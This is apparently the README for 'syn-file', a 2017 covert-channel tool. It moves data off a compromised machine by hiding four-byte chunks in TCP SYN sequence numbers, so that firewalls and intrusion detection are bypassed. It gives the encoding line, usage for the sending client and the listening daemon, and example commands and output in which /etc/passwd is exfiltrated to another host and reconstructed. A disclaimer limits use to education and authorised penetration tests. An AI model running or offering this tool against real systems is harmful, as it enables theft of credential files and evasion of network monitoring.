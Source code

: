 # syn-file

Exfiltrate data from a compromised target using covert channels.


## Intro
**syn-file** is a software that allows data exfiltration using TCP SYN sequence number packets.
In that way it is possible to bypass firewalls or IDS as no TCP connection is ever opened... similar to TCP SYN scanning.

To be faster exfiltrating data, a useful codification technique is used. Encoding 4 chars in a integer like this:

```seq= buf[0] << 24 | buf[1] << 16 | buf[2] << 8 | buf[3];```

In that manner it is possible to exfiltrate data from a machine running the command **syn-file** to another machine
that is listening on the wire running **syn-daemon**.



##Background

There are some tools to deploy covert channels, mainly using ICMP protocol, padding the content in the payload section...
but that looks quite suspicious and is very easy to spot using a network sniffer, as Wireshark.

However I have not seen any tool to deploy covert channels using TCP sequence numbers, also in **syn-file** the payload is left empty ;-)


##usage / example


###syn-daemon (server)
```
# ./syn-daemon -i iface -s source_ip -f file_for_exfiltrated_data
-i interface
-s source ip
-f file to store exfiltrated data
```

Example:
```
# ./syn-daemon -i eth0 -s 192.168.1.155 -f passwd
using interface: eth0
libcap rule: "src host 192.168.1.155"
#    1 [SYN: 1] [SEQ #: 0x61743a78]
#    2 [SYN: 1] [SEQ #: 0x3a32353a]
#    3 [SYN: 1] [SEQ #: 0x32353a42]
#    4 [SYN: 1] [SEQ #: 0x61746368]
#    5 [SYN: 1] [SEQ #: 0x206a6f62]
#    6 [SYN: 1] [SEQ #: 0x73206461]
#    7 [SYN: 1] [SEQ #: 0x656d6f6e]
#    8 [SYN: 1] [SEQ #: 0x3a2f7661]
#    9 [SYN: 1] [SEQ #: 0x722f7370]
#   10 [SYN: 1] [SEQ #: 0x6f6f6c2f]
...
```

And "passwd" recovered is:
```
# cat passwd 
at:x:25:25:Batch jobs daemon:/var/spool/atjobs:/bin/bash
avahi:x:481:481:User for Avahi:/run/avahi-daemon:/bin/false
avahi-autoipd:x:493:493:User for Avahi IPv4LL:/var/lib/avahi-autoipd:/bin/false
bin:x:1:1:bin:/bin:/bin/bash
colord:x:483:484:user for colord:/var/lib/colord:/sbin/nologin
daemon:x:2:2:Daemon:/sbin:/bin/bash
dnsmasq:x:486:65534:dnsmasq:/var/lib/empty:/bin/false
ftp:x:40:49:FTP account:/srv/ftp:/bin/bash
games:x:12:100:Games account:/var/games:/bin/bash
gdm:x:478:477:Gnome Display Manager daemon:/var/lib/gdm:/bin/false
...
```



###syn-file (client / target machine)
```
# ./syn-file -i interface -d dst_ip -f file_to_exfiltrate -p dst_port -P src_port -m MAC_address_server
-i interface
-d destination ip / IP that runs syn-daemon
-f file to exfiltrate
-p destination port
-P source port
-m MAC address server / syn-daemon
```

Example from target machine:
```
# ./syn-file -i eth0 -d 192.168.1.158 -f /etc/passwd -p 8080 -P 8081 -m 00:0C:0A:4a:3b:5c
using interface: eth0
#1	 [Read from file "at:x"] [Encoded SEQ #: 0x61743a78] [Wrote 74 bytes]
#2	 [Read from file ":25:"] [Encoded SEQ #: 0x3a32353a] [Wrote 74 bytes]
#3	 [Read from file "25:B"] [Encoded SEQ #: 0x32353a42] [Wrote 74 bytes]
#4	 [Read from file "atch"] [Encoded SEQ #: 0x61746368] [Wrote 74 bytes]
#5	 [Read from file " job"] [Encoded SEQ #: 0x206a6f62] [Wrote 74 bytes]
#6	 [Read from file "s da"] [Encoded SEQ #: 0x73206461] [Wrote 74 bytes]
#7	 [Read from file "emon"] [Encoded SEQ #: 0x656d6f6e] [Wrote 74 bytes]
#8	 [Read from file ":/va"] [Encoded SEQ #: 0x3a2f7661] [Wrote 74 bytes]
#9	 [Read from file "r/sp"] [Encoded SEQ #: 0x722f7370] [Wrote 74 bytes]
#10	 [Read from file "ool/"] [Encoded SEQ #: 0x6f6f6c2f] [Wrote 74 bytes]
...
```

##Disclamer
Only use allowed for educational purposes or professionaly during a penetration test given the proper permission.

All rights reserved

(c) 2017 spinfoo

Jacobo Avariento
